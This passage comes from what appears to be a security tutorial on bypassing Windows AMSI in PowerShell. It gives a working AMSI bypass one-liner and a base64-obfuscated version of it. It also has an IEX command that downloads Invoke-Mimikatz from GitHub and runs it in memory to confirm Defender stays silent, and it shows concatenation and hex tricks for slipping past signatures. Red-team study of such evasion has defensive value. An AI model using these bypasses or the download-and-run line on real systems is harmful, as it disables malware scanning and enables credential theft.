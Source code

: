 ## <span style="color:lightgreen">Final Payload</span>

Now that we crafted the final payload to Patch AMSI, let us look back at the original AMSI bypass code.

```powershell
PS:\> [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

+ All we need to do now is replace *AmsiUtils* and *amsiInitFailed* with the base64 encoded payload and concat the rest of the string.

```powershell
PS:\> [Ref].Assembly.GetType($('System.Management.Automation.')+$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('QQBtAHMAaQA=')))+$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('VQB0AGkAbABzAA==')))).GetField($([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('YQBtAHMAaQA=')) + $([System.Text.Encoding]::Unicode.GetString($([System.Convert]::FromBase64String('SQBuAGkAdAA=')))) + $([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('RgBhAGkAbABlAGQA')))),$('NonPublic,Static')).SetValue($null,$true)
```

+ For confirmation, we can download and execute `Mimikatz.ps1` in the memory and check if its triggering Defender.

```powershell
PS:\> IEX(iwr -uri https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1 -UseBasicParsing)
```

![image](https://github.com/0xStarlight/0xStarlight/assets/59029171/72c3622a-8fd5-4b59-9cdd-594049afd9fe)

As you can see, we successfully encoded the AMSI bypass payload in base64. Below I will give a demonstration on how to encode it in hex and use techniques like reverse string and concatenation

### <span style="color:pink">Concatenation</span>

An easy was of bypassing **"A m s i U t i l s"** is by simply splitting it into two words and adding them together.

```powershell
PS:\> 'AmsiUtils'
PS:\> 'Amsi' + 'Utils'
```

![image](https://github.com/0xStarlight/0xStarlight/assets/59029171/2600288f-d266-48b5-af41-f9b96e488368)


### <span style="color:pink">Hex Encoding</span>

A simple Hex encoding and decoding snippet in PowerShell looks like this :

```powershell
# Encoding Payload
PS:\> "Hello World" | Format-Hex

# Decoding Payload
PS:\> $r = '48 65 6C 6C 6F 20 57 6F 72 6C 64'.Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$s=$s+$_} 
PS C:\> $s
```
